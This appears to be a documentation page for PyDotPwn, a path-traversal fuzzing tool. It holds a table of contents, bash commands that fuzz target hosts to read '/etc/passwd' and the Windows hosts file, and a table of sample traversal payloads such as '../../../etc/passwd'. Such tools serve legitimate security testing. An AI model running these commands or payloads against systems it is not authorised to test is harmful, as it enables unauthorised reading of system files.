 ```yaml
---
layout: page
title: "CLI Reference"
permalink: /cli-reference/
---
```


# 💻 Complete CLI Reference

This is the comprehensive command-line interface reference for PyDotPwn. Every parameter, option, and feature is documented with examples and use cases.

## 📋 Table of Contents

- [Command Structure](#command-structure)
- [Enhanced Parameter Names](#enhanced-parameter-names)
- [Core Parameters](#core-parameters)
- [Module-Specific Parameters](#module-specific-parameters)
- [Advanced Options](#advanced-options)
- [Output and Reporting](#output-and-reporting)
- [Performance Tuning](#performance-tuning)
- [Examples by Use Case](#examples-by-use-case)

## � Revolutionary Path Validation Bypass

PyDotPwn includes the **industry's first comprehensive path validation bypass capability**, generating over **25,000 specialized patterns** designed to bypass modern application security controls.

### Quick Start Examples

```bash
# Generate all 25,000+ path validation bypass patterns
python dotdotpwn.py main --module stdout --os-type unix --file "/etc/passwd" --depth 3

# Test web application with path validation bypass
python dotdotpwn.py main --module http --host target.com --file /etc/passwd --depth 5

# Windows path validation bypass
python dotdotpwn.py main --module http --host windows.com --file "C:\Windows\System32\drivers\etc\hosts" --depth 4
```

### Pattern Coverage

| Pattern Type               | Count       | Example                                |
| -------------------------- | ----------- | -------------------------------------- |
| **Path Validation Bypass** | 25,000+     | `/var/www/uploads/../../../etc/passwd` |
| **Absolute Path Patterns** | 144+        | `/etc/passwd`, `%2fetc%2fpasswd`       |
| **Relative Traversal**     | 1,778+      | `../../../etc/passwd`                  |
| **Total Patterns**         | **25,000+** | **1,305% increase over original**      |
